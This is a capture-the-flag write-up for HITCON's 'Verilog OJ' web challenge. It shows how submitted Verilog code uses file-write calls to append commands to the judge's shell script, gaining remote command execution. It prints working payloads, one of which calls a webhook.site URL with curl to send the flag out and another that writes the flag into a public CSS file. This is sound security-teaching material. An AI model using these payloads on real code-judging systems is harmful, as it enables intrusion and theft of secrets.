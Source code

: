 ```yaml
---
title: Verilog OJ
summary: Yes, we need Online Judge for Verilog for our Logic Design course.
tags: [HitconCTF, Web, Misc, Command Injection]
date: 2025-08-24
showtoc: true
---
```


# Verilog OJ

## Description

Yes, we need Online Judge for Verilog for our Logic Design course.

Author: t510599

[Given files](/hitconctf/verilog-oj/verilog-oj.tar.gz)

## Solution

The web application is an online platform with Verilog problems, similar to LeetCode, but focused exclusively on a single Verilog problem.

![problem](/hitconctf/verilog-oj/problem.png)

[Verilog](https://en.wikipedia.org/wiki/Verilog) is a hardware description language used to design and verify digital circuits.

To test the application, I used an AI to generate a solution to the problem and submitted the resulting Verilog code.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;
endmodule
```

Upon submitting the code, I received a score of "AC" (All Correct), indicating that the application likely executed my input.

![submission](/hitconctf/verilog-oj/submission.png)

Since I confirmed that my submission was executed, I realized I could potentially exploit this by writing Verilog code to fetch and retrieve the flag from the server using a webhook.

I then examined the application's code to identify any security measures preventing this.
Surprisingly, I found that there was no sanitization applied to the submissions.

```ruby
module VerilogOJ
  # Judge Job
  class JudgeJob
    include Sidekiq::Job

    def perform(submission_id)
      submission = Submission.first(id: submission_id)
      return if submission.nil? || submission.result != 'Q'

      dir = prepare(submission)
      result, output = judge dir
      submission.update(result: result, output: output) unless result.nil?
      FileUtils.remove_dir(dir, force: true)
    end

    def prepare(submission)
      dir = Dir.mktmpdir("submission_#{submission.id}_")
      File.write("#{dir}/testbench.v", submission.problem.testbench)
      File.write("#{dir}/module.v", submission.code)
      dir
    end

    def judge(dir) # rubocop:disable Metrics/MethodLength
      stdout, stderr, status = Timeout.timeout(15) do
        # Simplify error handling by letting iverilog and vvp fail in a single script
        script_path = File.realpath("#{File.dirname(__FILE__)}/../../scripts/judge.sh")
        # iverilog is safe to execute
        Open3.capture3("#{script_path} #{dir}")
      end

      return ['RE', stderr] unless status.exitstatus.zero?

      if !stdout.nil? && stdout.strip.lines.last == 'Passed'
        ['AC', stdout]
      else
        ['WA', stdout]
      end
    rescue Timeout::Error
      ['TLE', 'Execution timed out']
    rescue StandardError => e
      ['RE', e.message]
    end
  end
end
```

The application simply runs a bash script, which executes the submission and verifies that no errors occurred and that the tests passed.

```sh
cd "$1"
iverilog module.v testbench.v -o judge
vvp judge
```

I then attempted to craft Verilog code that could exploit this behavior to fetch the flag.
At first, I assumed Verilog could be used like a typical programming language, but it turns out that Verilog is a hardware description language, not a general-purpose programming language.
This means you can't use typical programming features like executing shell commands or sending HTTP requests directly.

To understand Verilog better, I consulted a [Verilog tutorial](https://www.chipverify.com/tutorials/verilog), where I learned that while Verilog could still perform basic file operations, such as reading and writing files.

Next, I realized that I couldn’t directly read the flag because only the root user has permission to access it.
The flag is stored in a file that is only accessible by the root user.
To read it, I needed to execute the command `/readflag give me the flag`.
However, this required executing a shell command, which is not something Verilog can do directly.

But I found an interesting file to overwrite: the bash script that runs my submission.
If I could modify this script, I could append the `/readflag give me the flag` command to it, and that would allow me to access the flag.

To verify this, I wrote a Verilog submission that appends a `curl` command to send a webhook request, and after submitting it, I saw my webhook receive a request, confirming that the exploit was successful.

All I had to do now was add a subshell to retrieve the flag.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;

    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "curl https://webhook.site/07e78043-4cf9-4ad4-aaaa-fec865b06cde?`/readflag give me the flag`");
        $fclose(fd);
    end
endmodule
```

While it worked locally, no requests arrived when I submitted the payload remotely.
After tweaking the payload several times with no success, I contacted the organizers and was informed that the remote instance didn’t have internet access, which meant I couldn’t use a webhook to retrieve the flag.

Luckily, I quickly found a workaround.
Since I could modify a bash script, I also had the ability to modify other files, particularly static files like CSS files.
These files could be used to write the flag, which I could later retrieve through my browser.

I then opened a terminal within my Docker instance to locate a CSS file and updated my payload accordingly.

```verilog
module Crossbar_2x2_4bit(in1, in2, control, out1, out2);
    input [3:0] in1, in2;
    input control;
    output [3:0] out1, out2;
    integer fd;

    // mux logic for crossbar switch
    assign out1 = (control) ? in1 : in2;
    assign out2 = (control) ? in2 : in1;

    initial begin
        fd = $fopen ("/app/scripts/judge.sh", "a+");
        $fwrite(fd, "/readflag give me the flag >> /app/app/presentation/assets/css/style.css");
        $fclose(fd);
    end
endmodule
```

This time, I was able to retrieve the flag both locally and from the remote instance.

```sh
$ curl http://localhost:9292/assets/css/style.css | tail                                 
  font-family: 'Cascadia Code', monospace;
}

code:not(pre > code) {
  background-color: #f8f9fa;
  padding: 0.2em 0.4em;
  border-radius: 4px;
}
hitcon{1_u$ed_t0_beli3v3_th4t_Judging_VeriloG_is_VERY_S@f3_Fr0m_RCE_QAQ}
```

